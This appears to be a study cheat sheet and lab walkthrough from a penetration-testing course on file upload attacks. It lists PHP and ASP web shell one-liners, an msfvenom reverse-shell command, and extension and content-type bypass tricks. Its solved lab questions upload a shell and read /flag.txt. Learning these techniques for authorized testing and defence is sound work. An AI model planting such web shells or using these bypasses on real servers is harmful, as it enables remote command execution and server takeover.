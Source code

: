# Intro to File Upload Attacks
Uploading user files has become a key feature for most modern web applications to allow the extensibility of web applications with user information. A social media website allows the upload of user profile images and other social media, while a corporate website may allow users to upload PDFs and other documents for corporate use.
However, as web application developers enable this feature, they also take the risk of allowing end-users to store their potentially malicious data on the web application's back-end server. If the user input and uploaded files are not correctly filtered and validated, attackers may be able to exploit the file upload feature to perform malicious activities, like executing arbitrary commands on the back-end server to take control over it.

## Types of File Upload Attacks

The most common reason behind file upload vulnerabilities is weak file validation and verification, which may not be well secured to prevent unwanted file types or could be missing altogether. The worst possible kind of file upload vulnerability is an `unauthenticated arbitrary file upload` vulnerability. With this type of vulnerability, a web application allows any unauthenticated user to upload any file type, making it one step away from allowing any user to execute code on the back-end server.

Many web developers employ various types of tests to validate the extension or content of the uploaded file. However, as we will see in this module, if these filters are not secure, we may be able to bypass them and still reach arbitrary file uploads to perform our attacks.

The most common and critical attack caused by arbitrary file uploads is `gaining remote command execution` over the back-end server by uploading a web shell or uploading a script that sends a reverse shell. A web shell, as we will discuss in the next section, allows us to execute any command we specify and can be turned into an interactive shell to enumerate the system easily and further exploit the network. It may also be possible to upload a script that sends a reverse shell to a listener on our machine and then interact with the remote server that way.

In some cases, we may not have arbitrary file uploads and may only be able to upload a specific file type. Even in these cases, there are various attacks we may be able to perform to exploit the file upload functionality if certain security protections were missing from the web application.

Examples of these attacks include:
- Introducing other vulnerabilities like `XSS` or `XXE`.
- Causing a `Denial of Service (DoS)` on the back-end server.
- Overwriting critical system files and configurations.
- And many others.

When the validation for the file type in upload functionality happens on the client side NOT on the server side, we can easily bypass this restriction by changing the code using dev tools in browser. So if all validation appears to be happening on the front-end, as the page never refreshes or sends any HTTP requests after selecting our file- we should be able to have complete control over these client-side validations.

# Commands
|**Web Shell**|**Description**|
|---|---|
|`<?php file_get_contents('/etc/passwd'); ?>`|Basic PHP File Read|
|`<?php system('hostname'); ?>`|Basic PHP Command Execution|
|`<?php system($_REQUEST['cmd']); ?>`|Basic PHP Web Shell|
|`<% eval request('cmd') %>`|Basic ASP Web Shell|
|`msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php`|Generate PHP reverse shell|
|[PHP Web Shell](https://github.com/Arrexel/phpbash)|PHP Web Shell|
|[PHP Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell)|PHP Reverse Shell|
|[Web/Reverse Shells](https://github.com/danielmiessler/SecLists/tree/master/Web-Shells)|List of Web Shells and Reverse Shells|

## Bypasses

|**Command**|**Description**|
|---|---|
|**Client-Side Bypass**||
|`[CTRL+SHIFT+C]`|Toggle Page Inspector|
|**Blacklist Bypass**||
|`shell.phtml`|Uncommon Extension|
|`shell.pHp`|Case Manipulation|
|[PHP Extensions](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst)|List of PHP Extensions|
|[ASP Extensions](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Extension%20ASP)|List of ASP Extensions|
|[Web Extensions](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-extensions.txt)|List of Web Extensions|
|**Whitelist Bypass**||
|`shell.jpg.php`|Double Extension|
|`shell.php.jpg`|Reverse Double Extension|
|`%20`, `%0a`, `%00`, `%0d0a`, `/`, `.\`, `.`, `…`|Character Injection - Before/After Extension|
|**Content/Type Bypass**||
|[Web Content-Types](https://github.com/danielmiessler/SecLists/blob/master/Miscellaneous/web/content-type.txt)|List of Web Content-Types|
|[Content-Types](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-all-content-types.txt)|List of All Content-Types|
|[File Signatures](https://en.wikipedia.org/wiki/List_of_file_signatures)|List of File Signatures/Magic Bytes|

## Limited Uploads

| **Potential Attack** | **File Types**          |
| -------------------- | ----------------------- |
| `XSS`                | HTML, JS, SVG, GIF      |
| `XXE`/`SSRF`         | XML, SVG, PDF, PPT, DOC |
| `DoS`                | ZIP, JPG, PNG           |

# Questions & Answers
### Absent Validation
1.  Try to upload a PHP script that executes the (hostname) command on the back-end server, and submit the first word of it as the answer.
```
Create basic php webshell ->  <?php system($_REQUEST['cmd']); ?>

upload it, then go to
/uploads/shell.php?=cmd=andheretypecommands

http://94.237.59.199:54252/uploads/shell.php?cmd=cat+/flag.txt
```

### Upload Exploitation
2. Try to exploit the upload feature to upload a web shell and get the content of /flag.txt 
```
create a php web shell <?php system($_REQUEST['cmd']); ?>

http://SERVER_IP:PORT/uploads/shell.php?cmd=id

Then simply change the =id to cat+/flag.txt
http://SERVER_IP:PORT/uploads/shell.php?cmd=cat+/flag.txt
```

### Client-Side Validation
3.  Try to bypass the client-side file type validations in the above exercise, then upload a web shell to read /flag.txt (try both bypass methods for better practice)
```
First inspect the source code and find the lines which are responsible for allowed upload extensions:
 <input type="file" name="uploadFile" id="uploadFile" onChange="showImage()" accept=".jpg,.jpeg,.png">

Then in order to upload php web shell we need to add .php to the end of accept parametr so:
 <input type="file" name="uploadFile" id="uploadFile" onChange="showImage()" accept=".jpg,.jpeg,.png,.php">

Then go to debugger section in devtools and find these code:
function validate() {
  var file = $('#uploadFile') [0].files[0];
  var filename = file.name;
  var extension = filename.split('.').pop();
  if (extension !== 'jpg' && extension !== 'jpeg' && extension !== 'png') {
    $('#error_message').text('Only images are allowed!');
    File.form.reset();
    $('#submit').attr('disabled', true);
    return false;
  } else {
    return true;
  }
}

Then ignore these lines:
if (extension !== 'jpg' && extension !== 'jpeg' && extension !== 'png') {
    $('#error_message').text('Only images are allowed!');
    File.form.reset();
    $('#submit').attr('disabled', true);
    return false;
  } else {
    return true;
  }

After that return to index.html and find where uploaded photos are shown:
<img src="/profile_images/Untitled-1.png" class="profile-image" id="profile-image">
so it is http//IP:PORT/profile_images/...

After all that restictions that we disabled, try to upload shell.php
<?php system($_REQUEST['cmd']); ?>
to the main webstite

After that go to http//IP:PORT/profile_images/shell.php
and add ?cmd=YOUR_COMMANDS to interact with web shell, so it look like this:
http//IP:PORT/profile_images/shell.php?cmd=cat+/flag.txt  --- to read the content of flag.txt file in the / directory


```